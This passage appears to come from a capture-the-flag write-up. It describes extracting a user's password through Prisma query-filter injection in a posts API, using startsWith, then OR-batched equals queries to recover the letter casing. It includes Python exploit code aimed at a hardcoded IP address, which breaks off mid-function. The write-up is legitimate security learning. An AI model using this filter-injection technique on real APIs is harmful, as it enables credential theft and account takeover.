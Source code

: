 ```python
        if not found:
            print("No more characters found. Password complete.")
            break
            
    return password

if __name__ == "__main__":
    password = leak_password()
    print(f"Final password: {password}")
```

We did actually managed to extract all the passwords, but when we tried to log in, we couldn't ! 
Turns out `startsWith` is CASE-INSENSITIVE!! 😭


So now we have the password but case insensitively. We tried looking for case sensitive alternatives of `startsWith` (which was the intended solution) but we went on to something crawwsy 😂. 

I found out about the `OR` operator in `Prisma` and how it could be used to make conditional queries. Also `equals` could be used to make case sensitive comparisions. So we thought, what if we feed all the permutations of case in case insensitive version of password and run a binary search to narrow it down and find out the correct password? For example the query like `/api/posts?OR[0][author][password][equals]=8AXCgMish5Zn59rSXJM&OR[0][author][password][equals]=8AXCgMish5Zn59rSXJm` would resolve to:
```json

{ OR:
   [ 
      { author: 
        password:{
          startsWith : '8AXCgMish5Zn59rSXJM'
        }
       },
      { author: 
        password:{
          startsWith : '8AXCgMish5Zn59rSXJm'
        }
       },

       ...
    ],
   published: true }

```
Implementing that came with it's problems ofc, we ran out of request length trying to fit in all `OR` queries. So we did the same by breaking this into chunks and automated the process using this highly unoptimised script:

```python
import itertools
import requests
import time

BASE_URL = "http://35.239.207.1:3000/api/posts/"
PASSWORD = "8axcgmish5zn59rsxjm"
BATCH_SIZE = 20

def generate_case_permutations(password):
    return [''.join(perm) for perm in itertools.product(*[(c.lower(), c.upper()) if c.isalpha() else (c,) for c in password])]

def test_batch(permutations):
    params = {}
    for i, perm in enumerate(permutations):
        params[f"OR[{i}][author][password][equals]"] = perm
    
```